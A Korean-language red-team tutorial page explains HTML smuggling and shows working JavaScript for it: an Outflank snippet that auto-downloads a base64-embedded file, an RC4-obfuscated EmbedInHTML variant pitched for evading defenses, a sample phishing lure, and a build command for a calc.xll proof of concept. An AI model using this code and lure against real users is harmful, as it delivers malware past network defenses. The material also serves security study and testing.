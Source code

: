 # HTML 스머글링 (Smuggling)

출처와 중요 레퍼런스 - [https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/)

HTML 스머글링 (HTML Smuggling)은 자바스크립트와 HTML5의 download, anchor, click 등의 특성을 이용해 유저가 특정 HTML 페이지를 방문시 자동으로 파일을 다운 받도록 하는 기법이다.

1. HTML5 anchor 태그에는 download 라는 특성이 있다. 이 특성은 anchor 태그에 URL 형식으로 링크된 파일을 클라이언트가 다운로드 받도록 한다.
2. 자바스크립트의 Javascript Blob은 raw 데이터를 octet/stream 형태로 저장할 수 있게 해준다. 그 뒤 이 데이터는 createObjectURL을 통해 URL 형식으로 anchor 태그에 링크 될 수 있다.
3. 자바스크립트의 HTMLElement.click 함수는 anchor 태그에 링크된 파일을 자동으로 클릭해 다운로드 받게 한다.

위 3가지를 모두 합치면 HTML 페이지를 방문만 해도 페이로드가 다운로드 되도록 할 수 있다. HTML 스머글링은 다른 초기 침투 페이로드와 같이 사용되어 클라이언트의 디스크에 maldoc, XLL, DLL, HTA, JScript, ISO, ZIP 등의 파일들이 다운로드 되도록 한다.

고급화된 피싱 공격에서는 다음과 같이 HTML 스머글링을 이용하기도 한다.

* "<회사> 징계위원회입니다. 귀하와 관련된 익명의 신고가 접수되었으니 안전한 문서 접근을 위해 Safe URL 으로 가서 passcode: 1234를 입력한 뒤, 징계 문서를 확인주세요 -> \<HTML Smuggling 페이지 링크>"
* 피해자가 링크 클릭 -> HTML Smuggling 으로 문서 다운로드
* 문서를 여는 순간 페이로드 실행

### 장점

HTML 스머글링의 장점은 바로 호스트와 방어 기술들의 입장에서는 의심될만한 것이 많이 없다는 것이다. 아래는 Outflank 사의 블로그 포스트에서 가져온 이미지다:

![https://outflank.nl/blog/2018/08/14/html-smuggling-explained/](<../.gitbook/assets/image (13) (1).png>)

타겟의 프록시/방화벽의 입장에서는 피해자 호스트가 단순한 HTML 페이지를 방문하는 것처럼 보인다. MIME Type도 text/html밖에 없고, 로드되는 코드들도 클라이언트-사이드의 자바스크립트 밖에 없다. 요새 자바스크립트 없는 웹 페이지가 없다보니 이상한 점은 없어보인다.

브라우저의 입장에서도 단순한 HTML과 자바스크립트가 로드되다보니 이상한 점은 없다. 브라우저는 HTML5와 자바스크립트의 기본적인 함수들을 이용해 하라는대로, 파일을 다운로드 한다.

### 코드

기본적인 코드는 base64 스트링을 디코딩해 Javascript blob로 만들고, 이를 anchor 태그에 URL 형식으로 걸어놓은 뒤 HTMLElement.click() 함수를 이용해 이를 다운 받는 코드다.

<details>

<summary>Outflank blog source code</summary>

```
function base64ToArrayBuffer(base64) {
  var binary_string = window.atob(base64);
  var len = binary_string.length;
  var bytes = new Uint8Array( len );
  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
  return bytes.buffer;
}

var file ='<< BASE64 ENCODING OF MALICIOUS FILE >>';
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'outflank.doc';

if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
else {
  var a = document.createElement('a');
  document.body.appendChild(a);
  a.style = 'display: none';
  var url = window.URL.createObjectURL(blob);
  a.href = url;
  a.download = fileName;
  a.click();
  window.URL.revokeObjectURL(url);
}
```

`base64ToArryBuffer` 함수를 이용해 base64 인코딩된 문자열을 ArrayBuffer 로 만든 뒤, 이를 new Blob 에다가 넣어 자바스크립트 데이터 Blob를 생성한다.

그 뒤 anchor 태그를 생성하고, `var url = window.URL.createObjectURL(blob)` 을 이용해 anchor 태그에 위에서 만든 Blob를 걸어준 뒤, `a.download` 및 `a.click` 으로 클라이언트 브라우저가 자동으로 파일을 다운받도록 한다.

</details>

위에서 살펴본 코드도 좋지만, 작전보안을 위해 파일을 암호화 한 뒤, 클라이언트 브라우저가 다운 받는 런타임 도중 복호화 해 다운 받도록 암호화를 추가하는 방법도 있다.

<details>

<summary>EmbedinHTML - AES Encryption</summary>

```
function rc4Function(r,o){for(var t,e=[],n=0,a="",f=0;f<256;f++)e[f]=f;for(f=0;f<256;f++)n=(n+e[f]+r.charCodeAt(f%r.length))%256,t=e[f],e[f]=e[n],e[n]=t;f=0,n=0;for(var h=0;h<o.length;h++)n=(n+e[f=(f+1)%256])%256,t=e[f],e[f]=e[n],e[n]=t,a+=String.fromCharCode(o.charCodeAt(h)^e[(e[f]+e[n])%256]);return a;}
function b64AndRC4Function(r,o){var s=[],j=0,x,res='';for(var i=0;i<256;i++)s[i]=i;for(i=0;i<256;i++)j=(j+s[i]+r.charCodeAt(i%r.length))%256,x=s[i],s[i]=s[j],s[j]=x;i=0;j=0;var data=atob(o);var dataLength=data.length;var array=new Uint8Array(new ArrayBuffer(dataLength));for(var y=0;y<dataLength;y++)i=(i+1)%256,j=(j+s[i])%256,x=s[i],s[i]=s[j],s[j]=x,array[y]=data.charCodeAt(y)^s[(s[i]+s[j])% 256];return array;}

var keyFunction = function(){return "test"};

var varPayload = "<base64ed-file-string>";

var varBlob = new Blob([b64AndRC4Function(keyFunction(), varPayload)], {type: "application/vnd.ms-excel"});
var varBlobShim = '(function(b,fname){if(window.navigator.msSaveOrOpenBlob)window.navigator.msSaveOrOpenBlob(b,fname);else{var a=window.document.createElement("a");a.href=window.URL.createObjectURL(b, {type:"application/vnd.ms-excel"});a.download=fname;document.body.appendChild(a);a.click();document.body.removeChild(a);}})';
setTimeout(varBlobShim+'(varBlob, "calc.xll")');
```

</details>

암호화 함수들인 `rc4Function` 과 `b64AndRC4Function` 을 추가한다. 그 뒤, keyFunction 에서 간단한 암호화 키인 "test" 를 지정한다. 이후 암호화되어 있던 `varPayload` 를 `b64AndRC4Function` 으로 복호화 한다. 그 뒤, `varBlobShim` 에서는 위 OutFlank 소스코드에 있던 anchor 태그, Download 특성, createObjectURL 등을 추가하는 자바스크립트 함수를 만든다. 그 뒤, 이를 실행하면 런타임 중 복호화를 진행한 뒤 파일을 다운받게 된다.

### 실습

실습에서는 EmbedinHTML 툴을 사용한다. 오래된 툴이라 파이썬 2.7을 사용해야한다. PoC를 위해 기본 코드 실행인 계산기를 실행하는 페이로드를 이용한다.

```
python2.7 embedInHTML.py -f ./payloads_examples/calc.xll -o test.html -w -k testkey
```

![](../.gitbook/assets/htmlsmuggling-demo2.gif)

### 레퍼런스

{% embed url="https://outflank.nl/blog/2018/08/14/html-smuggling-explained/" %}

{% embed url="https://github.com/Arno0x/EmbedInHTML" %}
